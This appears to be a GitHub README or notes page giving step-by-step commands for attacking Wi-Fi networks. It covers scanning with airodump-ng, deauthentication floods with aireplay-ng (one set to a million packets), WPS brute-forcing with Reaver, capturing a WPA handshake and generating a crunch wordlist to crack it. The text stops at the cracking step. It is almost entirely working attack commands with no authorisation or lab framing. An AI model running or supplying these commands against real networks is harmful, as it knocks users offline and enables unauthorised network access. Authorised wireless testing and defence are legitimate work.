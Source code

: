 Other uses for Reaver

Bring up the networks again
```sh
sudo airodump-ng wlan0
```

De-Authenticate

```sh
sudo aireplay-ng --deauth 1000000 -a 00:11:22:33:44:55 -c 00:11:22:33:44:A1 wlan0
```

Crack the WPS with Reaver
```sh
sudo reaver --bssid <target-bssid> --channel <target-channel> --interface wlan0 -vvv
```
- vvv - verbose

---

**Capture the Handshake**

Start Airodump
```sh
sudo airodump-ng --bssid <target-bssid> --channel 1 --write handshake wlan0
```
- Now you would have to wait until someone authenticates to the router or access point. Alternatively you can de-authenticate a user to speed up this proccess

De-Authenticate
```sh
sudo aireplay-ng --deauth 4 -a <target-bssid> -c <client-mac> wlan0
```
- target mac - located under the heading station (one column right of the bssid)

![git image](img/client-mac.png)

Try increasing the --deauth time to 400 to try and capture the handshake which should show up in airodump command. This ill show up next to the top of the running commands first line

You can use the handshake and a wordlist to start cracking the password

---

**Cracking the Handshake**

Using crunch to generate a wordlist 
```sh
crunch [min] [max] [characters] -t [pattern] -o filename
```
